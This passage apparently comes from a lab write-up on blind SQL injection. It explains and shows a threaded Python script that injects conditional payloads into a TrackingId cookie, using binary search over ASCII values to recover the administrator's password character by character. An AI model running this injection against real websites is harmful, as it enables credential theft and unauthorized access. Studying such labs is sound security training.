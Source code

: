           for j in thread_list:    
            j.join()

          print("[-] Password:", "".join(password))          
        ```
        
        The requests.Session object is created and assigned to sn, then a for loop starts from 1-20. As in each iteration of the loop, a new thread object (t) is created and then starts the thread. Each thread calls the function sen_req with parameters (sn, i {position of the password character to search}, tracking_id, session_id). Then each started thread is also stored in thread_list to further check that all the threads execution has been done using thread.join() method.
        
        <br>
    - **Binary Search method:** Each thread calls a function send_req, and 4 parameters pass in this function (sn, i, tracking_id, session_id).
        ```
        # Send request using binary method
        def send_req(sn, i, tracking_id, session_id): 

          left_p = 0
          right_p = len(ascii_val) - 1
          
          # Element not found will never happens, and loop breaks when character matches
          while True:
            mid = (left_p + right_p) // 2

            # Equal check, always match on mid
            payload = "' AND (SELECT ASCII(SUBSTR(password,%d,1)) FROM users WHERE username='administrator')='%d" %(i, ascii_val[mid])

            payload = urllib.parse.quote_plus(payload)

            k_cookie = {"TrackingId": tracking_id + payload, "session": session_id}
            r = sn.get(k_url, cookies=k_cookie, proxies=proxy_urls, verify=False)
            res = r.text

            if 'Welcome back!' in res:
              password[i] = chr(ascii_val[mid])
              break

            # Only check one condition, i am checking < less
            payload = "' AND (SELECT ASCII(SUBSTR(password,%d,1)) FROM users WHERE username='administrator')<'%d" %(i, ascii_val[mid])

            payload = urllib.parse.quote_plus(payload)

            k_cookie = {"TrackingId": tracking_id + payload, "session": session_id}
            r = sn.get(k_url, cookies=k_cookie, proxies=proxy_urls, verify=False)
            res = r.text
            